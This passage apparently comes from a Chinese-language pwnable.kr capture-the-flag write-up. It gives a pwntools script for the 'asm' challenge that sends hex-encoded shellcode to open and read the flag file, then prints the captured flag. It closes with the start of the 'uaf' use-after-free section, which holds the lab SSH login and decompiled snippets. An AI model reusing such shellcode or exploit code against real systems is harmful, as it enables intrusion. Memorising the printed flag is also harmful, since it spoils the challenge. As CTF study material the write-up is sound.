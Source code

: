```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

filename='this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\0'

cn = remote('0.0.0.0',9026)
#cn = process('./asm')
cn.recvuntil('shellcode: ')

#p_filename = 0x41414700
#p_flag = 0x41414800
#pay=''
#pay += asm(shellcraft.amd64.linux.syscall('SYS_read',0,p_filename,0x100))
#pay += asm(shellcraft.amd64.linux.syscall('SYS_open',p_filename,0,0x400))
#pay += asm(shellcraft.amd64.linux.syscall('SYS_read','rax',p_flag,0x200))
#pay += asm(shellcraft.amd64.linux.syscall('SYS_write',1,p_flag,0x300))
pay = '31c031ff31d2b601be0101010181f6014640400f056a0258bf0101010181f70146404031d2b60431f60f054889c731c031d2b602be0101010181f6014940400f056a01586a015f31d2b603be0101010181f6014940400f05'.decode('hex')
#print pay.encode('hex')

cn.send(pay)
cn.send(filename)
print cn.recvuntil('\x90')
```

`Mak1ng_shelLcodE_i5_veRy_eaSy`


### uaf

> Mommy, what is Use After Free bug?
>
> ssh uaf@pwnable.kr -p2222 (pw:guest)

use after free的题，原理这里就不提及了，Google吧。

human基类有get_shell的虚函数。

```
  v3 = operator new(0x18uLL);                   // size 0x18
  Man::Man(v3, &v11, 25LL);
  v13 = v3;
```

```
    v8 = v13;                                   // free
    if ( v13 )
    {
      Human::~Human(v13);
      operator delete(v8);
    }
```
